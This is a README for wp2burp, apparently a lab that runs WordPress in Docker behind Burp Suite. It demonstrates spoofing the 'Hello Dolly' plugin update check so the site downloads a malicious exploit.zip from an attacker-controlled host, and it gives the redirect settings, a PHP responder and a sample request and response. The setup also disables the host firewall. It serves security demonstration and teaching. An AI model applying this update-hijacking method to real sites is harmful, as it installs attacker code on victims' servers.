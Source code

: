 # wp2burp

Intercept WordPress requests with Burp Suite

---

Allows you to deploy WordPress instance in Docker, see all internal requests to WordPress API in Burp Suite, intercept requests & responses. 

Especially useful to demonstrate how the plugin update work. In the example, we will spoof the update for the "Hello Dolly" WordPress Plugin, and instead of the official one, malicious version 999 hosted on our server will be downloaded & installed.

## Installation

1) Open `Burp Suite` and edit the `Proxy Listener` to listen on `All Interfaces`
    - _Proxy > Options > Proxy Listeners > Edit > All Interfaces > OK_

2) Edit `docker-compose.yml` and change IP of the `Proxy Listener`
    - _- "burp:10.10.10.254" # Burp Suite proxy IP_

3) Make sure that `Firewall` is not blocking access to `Proxy Listener`
    - _$ sudo ufw disable_

4) Run `Docker`, install `WordPress` and `Burp Suite` certificate
```bash
$ git clone https://github.com/vavkamil/wp2burp.git
$ cd wp2burp/
$ sudo chmod +x bin/install-wp.sh
$ sudo chmod +x bin/burp.sh
$ docker-compose up -d --build
$ docker-compose run --rm --user 33:33 wp-cli install-wp
$ docker exec -ti wp2burp_wordpress_1 /var/www/html/burp.sh
```

4) Visit the [WordPress instance](http://127.0.0.1:31337/wp-login.php) and login with `admin:admin`
    - _You should see all internal WordPress requests in Burp HTTP history tab_

## Usage

1) Open `Burp Suite` and edit the `Proxy Listener` to `redirect all requests received by listener`
    - _Proxy > Options > Proxy Listeners > Edit > Request handling_
      - _Redirect to host: xss.vavkamil.cz_
      - _Redirect to port: 443_
      - _Force use of TLS_
2) Edit `Match and Replace` to spoof the `Host` header
    - _Proxy > Options > Match and Replace > Add_
      - _Type: Request header_
      - _Match: api.wordpress.org_
      - _Replace: xss.vavkamil.cz_
3) Create route on `your web server` to respond to `plugin update checks`:
```bash
$ cat plugins/update-check/1.1/index.php

<?php
  header('Access-Control-Allow-Origin: *');
  header('Content-type: application/json');

  $response = array(
    "plugins" => array(
      "hello.php" => array(
        "new_version" => "999",
        "package" => "https://xss.vavkamil.cz/plugins/exploit.zip",
      ),
    ),
  );

  echo json_encode($response); 
?>
```

You should be able to intercept the WordPress requests asking for available plugin updates and respond with a spoofed response.

## Example

### Request

```
POST /plugins/update-check/1.1/ HTTP/2
Host: api.wordpress.org
User-Agent: WordPress/5.3; http://127.0.0.1:31337/
Accept: */*
Accept-Encoding: gzip, deflate
Referer: https://api.wordpress.org/plugins/update-check/1.1/
Connection: close
Content-Length: 1778
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

plugins=%7B%22plugins%22%3A%7B%22akismet%5C%2Fakismet.php%22%3A%7B%22Name%22%3A%22Akismet+Anti-Spam%22%2C%22PluginURI%22%3A%22https%3A%5C%2F%5C%2Fakismet.com%5C%2F%22%2C%22Version%22%3A%224.1.3%22%2C%22Description%22%3A%22Used+by+millions%2C+Akismet+is+quite+possibly+the+best+way+in+the+world+to+%3Cstrong%3Eprotect+your+blog+from+spam%3C%5C%2Fstrong%3E.+It+keeps+your+site+protected+even+while+you+sleep.+To+get+started%3A+activate+the+Akismet+plugin+and+then+go+to+your+Akismet+Settings+page+to+set+up+your+API+key.%22%2C%22Author%22%3A%22Automattic%22%2C%22AuthorURI%22%3A%22https%3A%5C%2F%5C%2Fautomattic.com%5C%2Fwordpress-plugins%5C%2F%22%2C%22TextDomain%22%3A%22akismet%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Akismet+Anti-Spam%22%2C%22AuthorName%22%3A%22Automattic%22%7D%2C%22hello.php%22%3A%7B%22Name%22%3A%22Hello+Dolly%22%2C%22PluginURI%22%3A%22http%3A%5C%2F%5C%2Fwordpress.org%5C%2Fplugins%5C%2Fhello-dolly%5C%2F%22%2C%22Version%22%3A%221.7.2%22%2C%22Description%22%3A%22This+is+not+just+a+plugin%2C+it+symbolizes+the+hope+and+enthusiasm+of+an+entire+generation+summed+up+in+two+words+sung+most+famously+by+Louis+Armstrong%3A+Hello%2C+Dolly.+When+activated+you+will+randomly+see+a+lyric+from+%3Ccite%3EHello%2C+Dolly%3C%5C%2Fcite%3E+in+the+upper+right+of+your+admin+screen+on+every+page.%22%2C%22Author%22%3A%22Matt+Mullenweg%22%2C%22AuthorURI%22%3A%22http%3A%5C%2F%5C%2Fma.tt%5C%2F%22%2C%22TextDomain%22%3A%22%22%2C%22DomainPath%22%3A%22%22%2C%22Network%22%3Afalse%2C%22RequiresWP%22%3A%22%22%2C%22RequiresPHP%22%3A%22%22%2C%22Title%22%3A%22Hello+Dolly%22%2C%22AuthorName%22%3A%22Matt+Mullenweg%22%7D%7D%2C%22active%22%3A%5B%5D%7D&translations=%5B%5D&locale=%5B%5D&all=true
```

### Response

```
HTTP/2 200 OK
Date: Sun, 10 Oct 2021 19:13:57 GMT
Content-Type: application/json
Access-Control-Allow-Origin: *
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=NpTdm3rT6Twj%2FvltPnM2Lb627HEIH4tcXE%2FTqUW0ZSqB7QQlDef1ttcmizy5cx2qcGwpKR%2BmudmYA0tp0G5QVEJ8G4%2Fu%2Bh07GKDQfbBYlJext3lDiKXRNB0EHIi3lD35oLk%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 69c22b4018442794-PRG
Alt-Svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400, h3-28=":443"; ma=86400, h3-27=":443"; ma=86400

{"plugins":{"hello.php":{"new_version":"999","package":"https:\/\/xss.vavkamil.cz\/plugins\/exploit.zip"}}}
```

### Screenshot

![](screenshot.png)

## Shell

```bash
$ docker exec -ti wp2burp_wordpress_1 /bin/bash
```
